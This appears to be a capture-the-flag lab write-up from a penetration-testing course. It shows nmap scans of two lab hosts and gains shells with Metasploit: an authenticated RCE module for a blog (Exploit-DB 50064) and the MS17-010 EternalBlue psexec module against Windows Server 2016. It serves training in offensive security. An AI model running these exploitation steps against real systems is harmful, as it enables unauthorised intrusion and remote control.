


## Exploiting Host 2: Searching for Metasploit module
We run a nmap scan on Host 3 first with the command `sudo nmap -A 172.16.1.12`. The following is the scan result returned:

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2026-10-03 16:56 EDT
Nmap scan report for blog.inlanefreight.local (172.16.1.12)
Host is up (0.0037s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 f6:21:98:29:95:4c:a4:c2:21:7e:0e:a4:70:10:8e:25 (RSA)
|   256 6c:c2:2c:1d:16:c2:97:04:d5:57:0b:1e:b7:56:82:af (ECDSA)
|_  256 2f:8a:a4:79:21:1a:11:df:ec:28:68:c2:ff:99:2b:9a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Inlanefreight Gabber
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 00:50:56:8A:7F:37 (VMware)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.4
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   3.67 ms blog.inlanefreight.local (172.16.1.12)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.01 seconds
```

Host 2 is running `ubuntu` version of Linux. The scan results points us to `blog.inlanefreight.local`. We can perhaps explore that.

The blog has Slade Wilson mentioning that `https://www.exploit-db.com/exploits/50064` exploits a vulnerability in the blog page. Upon navigating to this web link, we discover that the shell in `50064.rb` exploit module is written in `php`. The exploit module is called `Lightweight facebook-styled blog 1.3 - Remote Code Execution (RCE) (Authenticated) (Metasploit)`.

We open `msfconsole` and search for the relevant exploit module. However, we need to note that this module doesn't automatically ship with Metasploit, hence, we need to load it as a custom module.

```bash
# Grab the module
searchsploit -m 50064

# Drop it into personal module path
mkdir -p ~/.msf4/modules/exploits/linux/http
cp 50064.rb ~/.msf4/modules/exploits/linux/http/fbs_blog_rce.rb
```

Then, we need to reload in `msfconsole`

```bash
msf6 > reload_all
msf6 > use exploit/linux/http/fbs_blog_rce
```

We need to configure some options for the module itself. The USERNAME needs to be `admin` and the PASSWORD needs to be `admin123!@#`, which are credentials that were provided. The VHOST needs to be set to `blog.inlanefreight.local` too.

We run the exploit in Metasploit. We obtain a meterpreter.



We then enter `shell` to obtain a shell.



We then navigate to `/customscripts/flag.txt` to obtain the flag.


## Exploiting Host 3: Eternal Blue
We run a nmap scan on Host 3 first with the command `sudo nmap -A 172.16.1.13`. The following is the scan result returned:
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2026-10-03 15:58 EDT
Nmap scan report for 172.16.1.13
Host is up (0.0011s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: 172.16.1.13 - /
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
MAC Address: 00:50:56:8A:22:25 (VMware)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=10/3%OT=80%CT=1%CU=44519%PV=Y%DS=1%DC=D%G=Y%M=005056%T
OS:M=6AC15E90%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=I%CI=I%II=I
OS:%SS=S%TS=A)OPS(O1=M5B4NW8ST11%O2=M5B4NW8ST11%O3=M5B4NW8NNT11%O4=M5B4NW8S
OS:T11%O5=M5B4NW8ST11%O6=M5B4ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=20
OS:00%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M5B4NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=8
OS:0%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O
OS:%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80
OS:%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 1 hop
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h20m00s, deviation: 4h02m29s, median: 0s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SHELLS-WINBLUE, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8a:22:25 (VMware)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2026-10-03T19:59:08
|_  start_date: 2026-10-03T19:45:52
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: SHELLS-WINBLUE
|   NetBIOS computer name: SHELLS-WINBLUE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-10-03T12:59:08-07:00

TRACEROUTE
HOP RTT     ADDRESS
1   1.13 ms 172.16.1.13

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.66 seconds
```

Upon using `msfconsole`'s auxiliary scanner called `auxiliary/scanner/smb/smb_ms17_010`, we find out that the host is most likely vulnerable to `MS17-010`.


We now exploit the host with `msfconsole`'s exploit module called `exploit/windows/smb/ms17_010_psexec`.


We gained a meterpreter. We input `shell` to gain a shell.

We input `hostname` to obtain the hostname, which is `SHELLS-WINBLUE`.



We navigated to the relevant directory to find a flag text file too.

